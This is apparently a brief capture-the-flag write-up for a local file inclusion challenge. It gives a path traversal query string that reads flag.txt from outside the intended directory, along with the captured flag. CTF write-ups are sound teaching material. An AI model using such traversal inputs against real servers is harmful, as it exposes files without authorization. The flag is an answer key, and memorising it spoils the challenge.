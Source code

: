 # Proof of Concept

## TL;DR

- The challenge applies simple traversal technique to reveal the secret


```bash
?query=/../../flag.txt
```

### Flag:

> `HCS{LFI_buT_n0w_y0u_us1n9_tr4v3r5AL}`
